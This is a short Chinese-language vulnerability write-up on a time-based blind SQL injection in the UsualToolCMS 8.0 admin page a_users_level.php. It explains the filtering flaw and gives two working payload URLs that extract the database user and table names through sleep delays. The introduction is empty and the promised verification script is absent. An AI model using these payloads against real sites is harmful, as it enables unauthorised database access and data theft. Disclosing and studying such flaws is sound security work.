



# UsualToolcms 8.0 后台盲注

> 原文：[http://book.iwonder.run/0day/UsualToolcms/4.html](http://book.iwonder.run/0day/UsualToolcms/4.html)

## 一、漏洞简介

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

### 漏洞分析

./cmsadmin/a_users_level.php 第 19 行和第 26 行，id 参数可控



从 get 处获取 id 参数，id 存在无任何过滤，当 postt id 时，通过 sqlcheck 函数进行过滤，来到文件./class/UsualToolCMS_INC.php 第 33 行，将(',\,",null)转义，34 行调用 sqlchecks 函数，比没过滤 sql，然而 a_users_level.php 第 19 行 id 不是字符


### 复现

可以利用时间盲注来进行 sql 注入攻击，payload 如下：

```
a.当前数据库：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr(user(),1,1))=114,sleep(6),1) 
```

```
b.表：http://0-sec.org:8080/UsualToolCMS/cmsadmin/a_users_level.php?x=m&id=2 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>30,sleep(6),1) 
```



时间盲注验证脚本




